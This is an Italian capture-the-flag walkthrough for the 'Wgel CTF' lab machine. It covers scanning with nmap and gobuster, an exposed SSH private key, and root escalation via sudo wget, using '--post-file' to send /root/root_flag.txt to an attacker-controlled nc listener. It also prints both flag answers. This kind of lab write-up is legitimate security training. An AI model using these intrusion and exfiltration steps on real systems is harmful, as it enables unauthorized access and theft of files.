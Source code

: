 # Wgel CTF

_Difficoltà: Easy_

_________

# Task 1 - Wgel CTF

- sudo nmap -sS -sVC -Pn -p0- -A --open -T5 -vvv wgel.thm

![Screenshot_2023-10-09_22-07-59](https://github.com/Manganaccio/Manganaccio/assets/137283468/2a524a00-10df-40f8-8846-0667bc402fe5)

- essendo aperta la porta 80 si può visitare la pagina web, una volta visitata esaminare il codice sorgente della stessa

![Screenshot_2023-10-09_22-11-06](https://github.com/Manganaccio/Manganaccio/assets/137283468/79b5a617-4280-4f9a-ba32-5b51d673ad14)

- viene fornito un possibile username
- facciamo uno scan delle directories con gobuster

- gobuster dir -u http://wgel.thm -w /usr/share/wordlists/dirb/big.txt  --no-error -t 200

![3](https://github.com/Manganaccio/Manganaccio/assets/137283468/b03ed948-1796-4a67-b98a-8e7f2207701b)

- utilizziamo nuovamente gobuster per trovare ulteriori directories

- gobuster dir -u http://10.10.156.167/sitemap -w /usr/share/wordlists/dirb/big.txt  --no-error -t 200 -x php,html

![4](https://github.com/Manganaccio/Manganaccio/assets/137283468/fa5a9ca9-ecde-44db-9eba-52ed7e9d9972)

- si noti tra le nuove directories ".ssh", accedendo troviamo un file denominato _id_rsa_ utile per fare l'accesso tramite SSH
- salviamo il contenuto in un file di testo e settiamo i permessi tramite il comando _chmod 600 id_rsa_
- facciamo l'accesso al servizio SSH con il nome utente trovato in precedenza eseguendo il seguente comando
- ssh jessie@10.10.156.167 -i id_rsa

# User flag

- una volta eseguito l'accesso nella directory Documents troviamo la prima flag

      Answer: 057c67131c3d5e42dd5cd3075b198ff6

# Root flag

- digitando il comando _sudo -l_ non ci viene richiesta la password dell'utente e ci viene fornita un'informazione utile per eseguire privilege escalation

![5](https://github.com/Manganaccio/Manganaccio/assets/137283468/344cbadb-4511-416c-b5b5-10aeb47c1f2c)

- navighiamo ora su GTFOBins e alla pagina _wget_ all'indicazione _File upload_ ci vengono forniti i comandi da eseguire sul terminale
- apriamo quindi una connessione nc sulla macchina attaccante e contemporaneamente ottenuto su GTFOBins
- eseguire sulla macchina vittima il comando _sudo /usr/bin/wget --post-file=/root/root_flag.txt http://'NOSTRO-IP':'PORTA'_ e contemporaneamente apriamo una connessione nc sulla macchina attaccante

![6](https://github.com/Manganaccio/Manganaccio/assets/137283468/03b8e818-f657-47e4-ad0c-c26216f39a77)

![7](https://github.com/Manganaccio/Manganaccio/assets/137283468/0df03445-046f-41b1-9d90-98dbb5d1ac5c)


      Answer: b1b968b37519ad1daa6408188649263d
